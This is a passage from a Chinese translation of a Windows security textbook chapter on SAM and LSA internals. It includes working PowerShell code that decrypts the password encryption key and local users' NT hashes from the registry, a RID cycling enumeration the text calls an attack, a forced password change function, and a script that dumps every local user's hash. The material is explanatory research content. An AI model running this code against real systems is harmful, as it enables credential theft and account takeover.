❸ **$syskey = Get-LsaSystemKey**
 **$qiv = Get-StringBytes '!@#$%^&*()qwertyUIOPAzxcvbnmQQQQQQQQQQQQ)(*@&%'**
 **$niv = Get-StringBytes '0123456789012345678901234567890123456789'**
 **$rc4_key = Get-MD5Hash -Data ($Data[0..15] + $qiv + $syskey + $niv)**

❹ **$decbuf = Unprotect-RC4 -Data $data -Offset 0x10 -Length 32 -Key $rc4_key**
 **$pek = $decbuf[0..15]**
 **$hash = $decbuf[16..31]**

❺ **$pek_hash = Get-MD5Hash -Data ($pek + $niv + $pek + $qiv)**
 **if (!(Compare-Bytes $hash $pek_hash)) {**
 **throw "Invalid password key for RC4."**
 **}**

 **$pek**
**}** 
```

清单 10-25：使用 RC4 解密密码加密密钥

我们首先创建一些解密过程的辅助函数，例如Get-MD5Hash，它计算 MD5 哈希 ❶。然后我们开始解密 ❷。我们传递给Unprotect-PasswordEncryptionKeyRC4函数的< samp class="SANS_TheSansMonoCd_W5Regular_11">$Data参数是从固定属性缓冲区提取的值。

该函数构建了一个包含加密数据前 16 字节（*初始化向量*，用于随机化加密数据）的长二进制字符串，以及两个固定字符串和系统密钥 ❸。

然后，二进制字符串使用 MD5 算法进行哈希处理，以生成用于 RC4 加密的密钥，我们用它解密剩余的 32 字节加密数据❹。前 16 字节解密后的数据是 PEK，后 16 字节是用于验证解密是否正确的 MD5 哈希值。我们检查哈希值❺，以确保成功解密了 PEK。如果哈希值不正确，我们将抛出异常以指示失败。

在清单 10-26 中，我们定义了使用 AES 解密 PEK 的函数。

```
❶PS> **function Unprotect-AES([byte[]]$Data, [byte[]]$IV, [byte[]]$Key) {**
 **$aes = [System.Security.Cryptography.Aes]::Create()**
 **$aes.Mode = "CBC"**
 **$aes.Padding = "PKCS7"**
 **$aes.Key = $Key**
 **$aes.IV = $IV**
 **$aes.CreateDecryptor().TransformFinalBlock($Data, 0, $Data.Length)**
**}**

PS> **function Unprotect-PasswordEncryptionKeyAES([byte[]]$Data) {**
❷ **$syskey = Get-LsaSystemKey**
 **$hash_len = [System.BitConverter]::ToInt32($Data, 0)**
 **$enc_len = [System.BitConverter]::ToInt32($Data, 4)**
❸ **$iv = $Data[0x8..0x17]**
 **$pek = Unprotect-AES -Key $syskey -IV $iv -Data $Data[0x18..(0x18+$enc_len-1)]**

❹ **$hash_ofs = 0x18+$enc_len**
 **$hash_data = $Data[$hash_ofs..($hash_ofs+$hash_len-1)]**
 **$hash = Unprotect-AES -Key $syskey -IV $iv -Data $hash_data**

❺ **$sha256 = [System.Security.Cryptography.SHA256]::Create()**
 **$pek_hash = $sha256.ComputeHash($pek)**
 **if (!(Compare-Bytes $hash $pek_hash)) {**
 **throw "Invalid password key for AES."**
 **}**

 **$pek**
**}** 
```

清单 10-26：使用 AES 解密密码加密密钥

我们首先定义一个函数，用于使用指定的密钥和初始化向量（IV）❶解密 AES 缓冲区。解密过程使用 AES 的密码块链（CBC）模式，并采用 PKCS7 填充。建议查阅这些模式的工作原理，但它们的具体细节对于本讨论并不重要；只需要知道它们必须正确设置，否则解密过程将失败。

现在我们定义密码解密函数。用于 AES 的密钥是系统密钥❷，初始化向量（IV）是数据头部后的前 16 字节❸，加密数据紧随其后。要解密的数据的长度以值的形式存储在数据头部。

与 RC4 一样，加密数据中包含一个加密的哈希值，我们可以使用它来验证解密是否成功。我们解密该值❹，然后生成 PEK 的 SHA256 哈希值来验证它❺。如果解密和验证成功，我们现在就得到了一个解密后的 PEK。

在清单 10-27 中，我们使用 Unprotect-PasswordEncryptionKey 函数来解密密码密钥。

```
PS> **Unprotect-PasswordEncryptionKey | Out-HexDump**
E1 59 B0 6A 50 D9 CA BE C7 EA 6D C5 76 C3 7A C5 
```

清单 10-27：测试密码加密密钥解密

再次强调，生成的实际值在不同的系统上应有所不同。还要注意，PEK 的大小始终为 16 字节，无论用于存储它的加密算法是什么。

##### 解密密码哈希值

现在我们已经获得了 PEK，可以解密从清单 10-22 中提取的用户对象密码哈希值。清单 10-28 定义了用于解密密码哈希的函数。

```
PS> **function Unprotect-PasswordHash([byte[]]$Key, [byte[]]$Data,**
**[int]$Rid, [int]$Type) {**
 **$enc_type = [BitConverter]::ToInt16($Data, 2)**
 **switch($enc_type) {**
 **1 {Unprotect-PasswordHashRC4 -Key $Key -Data $Data -Rid $Rid -Type $Type}**
 **2 {Unprotect-PasswordHashAES -Key $Key -Data $Data}**
 **default {throw "Unknown hash encryption format"}**
 **}**
**}** 
```

清单 10-28：解密密码哈希值

Unprotect-PasswordHash 函数的参数包括我们解密得到的 PEK、加密的哈希数据、用户的 RID 和哈希类型。LM 哈希的 Type 值为 1，而 NT 哈希的 Type 值为 2。

哈希数据存储了加密类型；与 PEK 一样，支持的加密算法有 RC4 和 AES128。请注意，PEK 可能使用 RC4 加密，而密码哈希使用 AES，或者反之亦然。允许混合加密类型可以让系统在用户更改密码时，将旧的哈希值从 RC4 迁移到 AES。

我们调用特定算法的解密函数来解密哈希。请注意，只有 RC4 解密函数需要我们传入 RID 和哈希类型；AES128 解密函数不需要这两个值。

我们将首先实现 RC4 哈希解密，在 Listing 10-29 中。

```
PS> **function Unprotect-PasswordHashRC4([byte[]]$Key, [byte[]]$Data,**
**[int]$Rid, [int]$Type) {**
❶ **if ($Data.Length -lt 0x14) {**
 **return @()**
 **}**
❷ **$iv = switch($Type) {**
 **1 {"LMPASSWORD"}**
 **2 {"NTPASSWORD"}**
**3 {"LMPASSWORDHISTORY"}**
 **4 {"NTPASSWORDHISTORY"}**
 **5 {"MISCCREDDATA"}**
 **}**
❸ **$key_data = $Key + [BitConverter]::GetBytes($Rid) + (Get-StringBytes $iv)**
 **$rc4_key = Get-MD5Hash -Data $key_data**
❹ **Unprotect-RC4 -Key $rc4_key -Data $Data -Offset 4 -Length 16**
**}** 
```

Listing 10-29：使用 RC4 解密密码哈希

我们首先检查数据的长度 ❶。如果其小于 20 字节，我们假设哈希不存在。例如，LM 哈希在现代版本的 Windows 中默认不存储，因此尝试解密该哈希将返回空数组。

假设有一个哈希需要解密，我们然后需要根据解密的哈希类型生成一个 IV 字符串 ❷。除了 LM 和 NT 哈希，LSA 还可以解密一些其他哈希类型，例如密码历史记录，它存储先前的密码哈希，以防止用户更改为旧密码。

我们通过将 PEK、RID 的字节形式和 IV 字符串连接起来，生成一个密钥，并使用它生成一个 MD5 哈希 ❸。然后，我们使用这个新密钥最终解密密码哈希 ❹。

使用 AES 解密密码比使用 RC4 更简单，正如在 Listing 10-30 中所看到的。

```
PS> **function Unprotect-PasswordHashAES([byte[]]$Key, [byte[]]$Data) {**
❶ **$length = [BitConverter]::ToInt32($Data, 4)**
 **if ($length -eq 0) {**
 **return @()**
 **}**
❷ **$IV = $Data[8..0x17]**
 **$value = $Data[0x18..($Data.Length-1)]**
❸ **Unprotect-AES -Key $Key -IV $IV -Data $value**
**}** 
```

Listing 10-30：使用 AES 解密密码哈希

密码包含数据长度，我们用它来判断是否需要返回一个空缓冲区 ❶。然后，我们可以从缓冲区中提取 IV ❷ 和加密值，并使用 PEK ❸ 解密该值。

Listing 10-31 解密 LM 和 NT 哈希。

```
PS> **$pek = Unprotect-PasswordEncryptionKey**
PS> **$lm_dec = Unprotect-PasswordHash -Key $pek -Data $lm -Rid 500 -Type 1**
PS> **$lm_dec | Out-HexDump**
❶
PS> **$nt_dec = Unprotect-PasswordHash -Key $pek -Data $nt -Rid 500 -Type 2**
PS> **$nt_dec | Out-HexDump**
❷ 40 75 5C F0 7C B3 A7 17 46 34 D6 21 63 CE 7A DB 
```

Listing 10-31：解密 LM 和 NT 哈希

请注意，在此示例中没有 LM 哈希，因此解密过程返回一个空数组 ❶。然而，NT 哈希解密为一个 16 字节的值 ❷。

##### 解密密码哈希

我们现在有了一个解密后的密码哈希，但还有一个最终步骤需要执行，以恢复原始哈希。密码哈希仍然使用数据加密标准（DES）算法进行加密。DES 是 NT 最初版本中的哈希混淆机制，在系统密钥引入之前使用。所有这些 RC4 和 AES 解密操作只是让我们回到了最初的状态。

我们首先需要生成 DES 密钥来解密哈希值（Listing 10-32）。

```
PS> **function Get-UserDESKey([uint32]$Rid) {**
 **$ba = [System.BitConverter]::GetBytes($Rid)**
 **$key1 = ConvertTo-DESKey $ba[2], $ba[1], $ba[0], $ba[3], $ba[2], $ba[1],** 
**$ba[0]**
 **$key2 = ConvertTo-DESKey $ba[1], $ba[0], $ba[3], $ba[2], $ba[1], $ba[0],** 
**$ba[3]**
 **$key1, $key2**
**}**

PS> **function ConvertTo-DESKey([byte[]]$Key) {**
 **$k = [System.BitConverter]::ToUInt64($Key + 0, 0)**
 **for($i = 7; $i -ge 0; $i--) {**
 **$curr = ($k -shr ($i * 7)) -band 0x7F**
 **$b = $curr**
 **$b = $b -bxor ($b -shr 4)**
 **$b = $b -bxor ($b -shr 2)**
 **$b = $b -bxor ($b -shr 1)**
 **($curr -shl 1) -bxor ($b -band 0x1) -bxor 1**
 **}**
**}** 
```

Listing 10-32：为 RID 生成 DES 密钥

解密哈希的第一步是根据 RID 的值生成两个 64 位的 DES 密钥。在清单 10-32 中，我们将 RID 解包成两个 56 位的数组，作为两个密钥的基础。然后，我们通过将每个 7 位的数组扩展为 64 位，计算每个字节的校验位。校验位设置在每个字节的最低有效位，以确保每个字节具有奇数位。

使用这两个密钥，我们可以完全解密哈希。首先，我们需要一些函数，这些函数在清单 10-33 中定义。

```
PS> **function Unprotect-DES([byte[]]$Key, [byte[]]$Data, [int]$Offset) {**
 **$des = [Security.Cryptography.DES]::Create()**
 **$des.Key = $Key**
 **$des.Mode = "ECB"**
 **$des.Padding = "None"**
 **$des.CreateDecryptor().TransformFinalBlock($Data, $Offset, 8)**
**}**

PS> **function Unprotect-PasswordHashDES([byte[]]$Hash, [uint32]$Rid) {**
 **$keys = Get-UserDESKey -Rid $Rid**
 **(Unprotect-DES -Key $keys[0] -Data $Hash -Offset 0) +**
 **(Unprotect-DES -Key $keys[1] -Data $Hash -Offset 8)**
**}** 
```

清单 10-33：使用 DES 解密密码哈希

我们首先定义一个简单的 DES 解密函数。该算法使用无填充的 DES 电子密码本（ECB）模式。然后我们定义一个函数来解密哈希。第一个 8 字节的块使用第一个密钥解密，第二个块使用第二个密钥解密。之后，我们将解密后的哈希值连接成一个 16 字节的结果。

最后，我们可以解密密码哈希并与真实值进行比较，如清单 10-34 所示。

```
PS> **Unprotect-PasswordHashDES -Hash $nt_dec -Rid 500 | Out-HexDump**
51 1A 3B 26 2C B6 D9 32 0E 9E B8 43 15 8D 85 22

PS> **Get-MD4Hash -String "adminpwd" | Out-HexDump**
51 1A 3B 26 2C B6 D9 32 0E 9E B8 43 15 8D 85 22 
```

清单 10-34：验证 NT 哈希

如果哈希值已正确解密，我们应该期望它与用户密码的 MD4 哈希值匹配。在这种情况下，用户密码设置为 *adminpwd*（我知道，这不够强）。解密后的 NT 哈希和生成的哈希完全匹配。

现在我们来看看存储 LSA 策略的 SECURITY 数据库。我们不会花太多时间在这个数据库上，因为我们可以使用本章前面描述的域策略远程服务直接提取大部分信息。

#### 检查 SECURITY 数据库

LSA 策略存储在 SECURITY 数据库注册表键中，位于 *REGISTRY\MACHINE\SECURITY*。与 SAM 数据库注册表键一样，只有 *SYSTEM* 用户可以直接访问该键，但我们可以使用来自清单 10-21 的映射驱动提供程序来检查其内容。

清单 10-35 显示了 SECURITY 数据库注册表键的几个级别。以管理员身份运行此命令。

```
PS> **ls -Depth 1 -Recurse SEC:\SECURITY**
❶ SECURITY\Cache                            Key
SECURITY\Policy                           Key
SECURITY\RXACT                            Key
❷ SECURITY\SAM                              Key
❸ SECURITY\Policy\Accounts                  Key
SECURITY\Policy\CompletedPrivilegeUpdates Key
SECURITY\Policy\DefQuota                  Key
SECURITY\Policy\Domains                   Key
SECURITY\Policy\LastPassCompleted         Key
SECURITY\Policy\PolAcDmN                  Key
SECURITY\Policy\PolAcDmS                  Key
❹ SECURITY\Policy\PolAdtEv                  Key
❺ SECURITY\Policy\PolAdtLg                  Key
SECURITY\Policy\PolDnDDN                  Key
SECURITY\Policy\PolDnDmG                  Key
SECURITY\Policy\PolDnTrN                  Key
SECURITY\Policy\PolEKList                 Key
SECURITY\Policy\PolMachineAccountR        Key
SECURITY\Policy\PolMachineAccountS        Key
SECURITY\Policy\PolOldSyskey              Key
SECURITY\Policy\PolPrDmN                  Key
SECURITY\Policy\PolPrDmS                  Key
SECURITY\Policy\PolRevision               Key
❻ SECURITY\Policy\SecDesc                   Key
❼ SECURITY\Policy\Secrets                   Key 
```

清单 10-35：列出 SECURITY 数据库注册表键的内容

我们将只讨论其中的一些注册表键。*Cache* 键 ❶ 包含一个缓存的域凭证列表，即使丢失了对域控制器的访问，也可以用来验证用户身份。我们将在第十二章讨论交互式身份验证时，讲解该键的使用。

*SAM* 密钥 ❷ 是指向完整 SAM 数据库注册表项的链接，我们在示例 10-21 中展示了该项的内容。它在此存在是为了方便查阅。*Policy\Accounts* 密钥 ❸ 用于存储策略的账户对象。*Policy* 密钥还包含其他系统策略和配置；例如，*PolAdtEv* ❹ 和 *PolAdtLg* ❺ 包含与系统审计策略相关的配置，我们在第九章中分析了这些内容。

用于保护策略对象的安全描述符位于 *Policy\SecDesc* 密钥 ❻ 中。策略中的每个可保护对象都有一个类似的密钥来持久化其安全描述符。

最后，*Policy\Secrets* 密钥 ❼ 用于存储机密对象。我们在示例 10-36 中进一步探讨了 *Secrets* 密钥的子项。你需要以管理员身份运行这些命令。

```
❶ PS> **ls SEC:\SECURITY\Policy\Secrets**
Name         TypeName
----         --------
$MACHINE.ACC Key
DPAPI_SYSTEM Key
NL$KM        Key

❷ PS> **ls SEC:\SECURITY\Policy\Secrets\DPAPI_SYSTEM**
Name     TypeName
----     --------
CupdTime Key
CurrVal  Key
OldVal   Key
OupdTime Key
SecDesc  Key

PS> **$key = Get-Item SEC:\SECURITY\Policy\Secrets\DPAPI_SYSTEM\CurrVal**
❸ PS> **$key.DefaultValue.Data | Out-HexDump -ShowAll**
          00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F  - 0123456789ABCDEF
-----------------------------------------------------------------------------
00000000: 00 00 00 01 5F 5D 25 70 36 13 17 41 92 57 5F 50  - ...._]%p6..A.W_P
00000010: 89 EA AA 35 03 00 00 00 00 00 00 00 DF D6 A4 60  - ...5...........`
00000020: 5B FB EE B2 04 04 1E A9 E9 5B FA 77 85 5E 57 07  - ........[.w.^W.
00000030: CC 2A 53 BF 2A 84 E0 88 86 B9 7A 55 E7 63 79 6C  - .*S.*.....zU.cyl
00000040: 8A 72 85 67 31 BD 52 3E 11 E0 49 A6 AE 9B BE B5  - .r.g1.R>..I.....
00000050: 21 15 F0 1D 75 C3 F8 CA 46 CC 4A 58 B3 9C 4F 1E  - !...u...F.JX..O.
00000060: D9 8B 61 6C A4 A0 77 18 F1 42 61 43 C6 12 CE 22  - ..al..w..BaC..."
00000070: 03 EC 80 1B 51 07 F7 16 50 CD 04 71              - ....Q...P..q 
```

示例 10-36：枚举 SECURITY\Policy\Secrets 密钥的子项

[示例 10-36 列出了 *Secrets* 密钥 ❶ 的子项。每个子项的名称是通过域策略远程服务打开机密时使用的字符串。例如，我们可以在输出中看到我们在示例 10-17 中访问的 *DPAPI_SYSTEM* 机密。

当我们检查该密钥 ❷ 的值时，发现其当前值和旧值以及时间戳，还能看到机密对象的安全描述符。机密的内容作为默认值存储在该密钥中，因此我们可以以十六进制 ❸ 显示它。你可能会注意到，机密的值与我们通过域策略远程服务提取的值不同。与用户对象数据一样，LSA 会尝试混淆注册表中的值，以防止内容被轻易泄露。系统密钥被使用，但采用了不同的算法；我不会进一步探讨这个细节。

### 实际示例

让我们通过一些示例来演示如何使用本章中提到的各种命令进行安全研究或系统分析。

#### RID 循环

在第 323 页的“名称查找与映射”一节中，我提到了一种名为 RID 循环的攻击，它通过域策略远程服务查找计算机上的用户和组，而无需访问 SAM 远程服务。在示例 10-37 中，我们使用本章介绍的一些命令执行了这个攻击。

```
PS> **function Get-SidNames {**
 **param(**
❶ **[string]$Server,**
 **[string]$Domain,**
 **[int]$MinRid = 500,**
 **[int]$MaxRid = 1499**
 **)**
 **if ("" -eq $Domain) {**
 **$Domain = $Server**
 **}**
❷ **Use-NtObject($policy = Get-LsaPolicy -SystemName $Server -Access** 
**LookupNames) {**
 ❸ **$domain_sid = Get-LsaSid $policy "$Domain\"** 
 ❹ **$sids = $MinRid..$MaxRid | ForEach-Object {**
 **Get-NtSid -BaseSid $domain_sid -RelativeIdentifier $_**
 **}**
❺ **Get-LsaName -Policy $policy -Sid $sids | Where-Object NameUse** 
**-ne "Unknown"** 
 **}**
**}**

❻PS> **Get-SidNames -Server "CINNABAR" | Select-Object QualifiedName, Sddl**
QualifiedName              Sddl
-------------              ----
CINNABAR\Administrator    S-1-5-21-2182728098-2243322206-2265510368-500
CINNABAR\Guest          S-1-5-21-2182728098-2243322206-2265510368-501
CINNABAR\DefaultAccount    S-1-5-21-2182728098-2243322206-2265510368-503
CINNABAR\WDAGUtilityAccount S-1-5-21-2182728098-2243322206-2265510368-504
CINNABAR\None           S-1-5-21-2182728098-2243322206-2265510368-513
CINNABAR\LocalAdmin         S-1-5-21-2182728098-2243322206-2265510368-1000 
```

示例 10-37：一个简单的 RID 循环实现

首先，我们定义执行 RID 循环攻击的函数。我们需要四个参数❶：我们要枚举的服务器，服务器中的域，以及要检查的最小和最大 RID 值。查找过程每次只能请求 1,000 个 SID，因此我们设置一个默认范围在此限制内，从500到1499（包括），这应该涵盖用于用户账户和组的 RID 范围。

接下来，我们打开策略对象并请求LookupNames访问权限❷。我们需要通过使用其简单名称❸来查找域的 SID。通过域的 SID，我们可以为每个我们想要暴力破解的 RID 创建相对 SID，并查找它们的名称❹。如果返回对象的NameUse属性设置为Unknown，那么该 SID 没有映射到用户名❺。通过检查此属性，我们可以从枚举结果中过滤掉无效用户。

最后，我们在本地域网络中的另一台系统上测试这个功能❻。你需要能够认证到服务器才能执行攻击。在加入域的系统上，这应该是默认的。然而，如果你的机器是独立系统，攻击可能会因为缺少认证凭据而失败。

#### 强制更改用户的密码

在讨论 SAM 数据库中的用户对象时，我提到过，如果调用者被授予了ForcePasswordChange访问权限，他们可以强制更改用户的密码。列表 10-38 展示了如何使用本章中描述的命令来实现这一操作。

```
PS> **function Get-UserObject([string]$Server, [string]$User) {**
 **Use-NtObject($sam = Connect-SamServer -ServerName $Server) {**
 **Use-NtObject($domain = Get-SamDomain -Server $sam -User) {**
 **Get-SamUser -Domain $domain -Name $User -Access ForcePasswordChange**
 **}**
 **}**
**}**

PS> **function Set-UserPassword([string]$Server, [string]$User, [bool]$Expired) {**
 **Use-NtObject($user_obj = Get-UserObject $Server $User) {**
 **$pwd = Read-Host -AsSecureString -Prompt "New Password"**
 **$user_obj.SetPassword($pwd, $Expired)**
 **}**
**}** 
```

列表 10-38：通过 SAM 远程服务强制更改用户的密码

我们首先定义一个辅助函数，该函数在指定的服务器上打开用户对象。我们使用User参数打开用户域，并明确请求ForcePasswordChange访问权限，如果没有授予该权限，则会生成访问拒绝错误。

然后，我们定义一个设置密码的函数。我们将从控制台读取密码，因为它需要是安全字符串格式。Expired参数标记密码为在用户下次认证时需要更改。在从控制台读取密码后，我们会在用户对象上调用SetPassword函数。

我们可以通过以管理员身份运行列表 10-39 中的脚本来测试密码设置函数。

```
PS> **Set-UserPassword -Server $env:COMPUTERNAME "user"**
New Password: ************* 
```

列表 10-39：在当前计算机上设置用户密码

要获得ForcePasswordChange访问权限，你需要在目标机器上是管理员。在这种情况下，我们本地以管理员身份运行。然而，如果你想更改远程用户的密码，你需要在远程计算机上以管理员身份进行身份验证。

#### 提取所有本地用户哈希

在“通过注册表访问 SAM 数据库”（第 325 页）中，我们定义了从 SAM 数据库解密用户密码哈希的函数。要使用这些函数自动解密所有本地用户的密码，请以管理员身份运行列表 10-40。

```
❶ PS> **function Get-PasswordHash {**
 **param(**
 **[byte[]]$Pek,**
 **$Key,**
 **$Rid,**
 **[switch]$LmHash**
 **)**
 **$index = 14**
 **$type = 2**
 **if ($LmHash) {**
 **$index = 13**
 **$type = 1**
 **}**
 **$hash_enc = Get-VariableAttribute $key -Index $Index**
 **if ($null -eq $hash_enc) {**
 **return @()**
 **}**
 **$hash_dec = Unprotect-PasswordHash -Key $Pek -Data $hash_enc -Rid $Rid**
**-Type $type**
 **if ($hash_dec.Length -gt 0) {**
 **Unprotect-PasswordHashDES -Hash $hash_dec -Rid $Rid**
 **}**
**}**

❷ PS> **function Get-UserHashes {**
 **param(**
 **[Parameter(Mandatory)]**
 **[byte[]]$Pek,**
 **[Parameter(Mandatory, ValueFromPipeline)]**
 **$Key**
 **)**

 **PROCESS {**
 **try {**
 **if ($null -eq $Key["V"]) {**
 **return**
 **}**
 **$rid = [int]::Parse($Key.Name, "HexNumber")**
**$name = Get-VariableAttribute $key -Index 1**

 **[PSCustomObject]@{**
 **Name=[System.Text.Encoding]::Unicode.GetString($name)**
 **LmHash = Get-PasswordHash $Pek $key $rid -LmHash**
 **NtHash = Get-PasswordHash $Pek $key $rid**
 **Rid = $rid**
 **}**
 **} catch {**
 **Write-Error $_**
 **}**
 **}**
**}**

❸ PS> **$pek = Unprotect-PasswordEncryptionKey**
❹ PS> **ls "SEC:\SAM\SAM\Domains\Account\Users" | Get-UserHashes $pek**
NameLmHash NtHash                  Rid
---------- ------                  ---
Administrator                                     500
Guest                                             501
DefaultAccount                                    503
WDAGUtilityAccount        {125, 218, 222, 22...}  504
admin                     {81, 26, 59, 38...}     1001 
```

列表 10-40：解密所有本地用户的密码哈希

我们从定义一个函数开始，解密用户注册表键中的单个密码哈希❶。我们根据LmHash参数选择要提取的哈希，这会改变 RC4 密钥的索引和类型。然后，我们从Get-UserHashes函数❷调用此函数，该函数提取其他信息，例如用户的名称，并构建一个自定义对象。

要使用Get-UserHashes函数，我们首先解密密码加密密钥❸，然后在注册表中枚举用户账户，并通过它将账户传递❹。从输出中可以看到，只有两个用户具有 NT 密码哈希，没有用户配置 LM 哈希。

### 总结

本章以讨论 Windows 域身份验证开始。我们介绍了各种复杂度的层次，从单机上的本地域开始，逐步到网络域和森林。每个复杂度层次都有相关的配置，可以访问这些配置来确定在身份验证域内可用的用户和/或组。

随后，我们检查了可以用来查看本地系统身份验证配置的各种内置 PowerShell 命令。例如，Get-LocalUser命令将列出所有注册的用户，以及他们是否已启用。我们还看到了如何添加新用户和组。

然后我们查看了 LSA 策略，用于配置各种安全属性（例如在第九章中描述的审计策略），用户被分配的权限，以及用户可以执行的身份验证类型。

接下来，我们探讨了如何使用 SAM 远程服务和域策略服务网络协议访问配置，无论是在本地还是在远程系统上。如你所见，我们通常认为的组在内部被称为别名。

我们通过深入探讨身份验证配置如何存储在注册表中，以及如何对其进行基本检查，来结束这一章的内容。我们还查看了一个例子，展示如何从注册表中提取用户的哈希密码。

在下一章，我们将以类似的方式探讨身份验证配置是如何存储在活动目录配置中的，这比本地配置案例要复杂得多。
